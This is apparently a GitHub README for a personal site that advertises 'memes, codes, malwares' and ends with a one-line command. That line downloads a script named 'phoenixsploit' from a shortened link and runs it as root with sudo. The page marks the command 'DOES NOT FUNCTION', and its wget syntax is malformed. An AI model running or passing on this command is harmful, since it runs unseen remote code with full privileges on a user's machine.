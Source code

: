 # phoenixthrush.github.io
Just memes, codes, malwares, a archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao




NEW UPDATE!
DOES NOT FUNCTION

wget https://bit.ly/phoenixsploit phoenix.sh && sudo chmod +x phoenix.sh && sudo ./phoenix.sh
